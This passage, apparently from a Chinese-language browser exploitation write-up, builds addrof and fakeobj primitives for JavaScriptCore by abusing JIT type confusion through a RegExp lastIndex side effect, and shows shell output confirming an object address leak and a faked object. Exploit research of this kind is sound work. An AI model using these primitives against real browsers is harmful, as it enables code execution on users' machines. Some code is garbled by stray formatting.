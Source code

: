 ```
    return `0x$`{`x.toString(16)`}``;
`}`
```

通过申请一个8字节的buffer，并且用不同形式表示它可以很好解决格式化的问题。

```
&gt;&gt;&gt; test = `{``}`
[object Object]
&gt;&gt;&gt; hex(f2i(addrof(test)))
0x1082b00c0
&gt;&gt;&gt; describe(test)
Object: 0x1082b00c0 with butterfly 0x0 (Structure 0x1082f20d0:[Object, `{``}`, NonArray, Proto:0x1082b4000]), StructureID: 76
&gt;&gt;&gt;
```

可以看到确实泄漏出了对象的地址。

根据poc再构造一个`fakeobj()`：

```
function fakeobj(addr)`{`

    var victim_array = [1.1];
    var reg = /abc/y;

    var funcToJIT = function(array)`{`
        'abc'.match(reg);
        array[0] = addr;
    `}`

    for(var i=0; i &lt; 10000; i++)`{`
        funcToJIT(victim_array);
    `}`

    regexLastIndex = `{``}`;
    regexLastIndex.toString = function()`{`
        victim_array[0] = `{``}`;
        return "0";
    `}`
    reg.lastIndex = regexLastIndex;
    funcToJIT(victim_array);

    return victim_array[0];
`}`
```

```
&gt;&gt;&gt; test = `{``}`;
[object Object]
&gt;&gt;&gt; test_addr = f2i(addrof(test));
4440391936
&gt;&gt;&gt; hex(test_addr)
0x108ab0100
&gt;&gt;&gt; aaaa = fakeobj(i2f(test_addr))
[object Object]
&gt;&gt;&gt; describe(aaaa)
Object: 0x108ab0100 with butterfly 0x0 (Structure 0x108af20d0:[Object, `{``}`, NonArray, Proto:0x108ab4000]), StructureID: 76
&gt;&gt;&gt; describe(test)
Object: 0x108ab0100 with butterfly 0x0 (Structure 0x108af20d0:[Object, `{``}`, NonArray, Proto:0x108ab4000]), StructureID: 76
&gt;&gt;&gt;
```
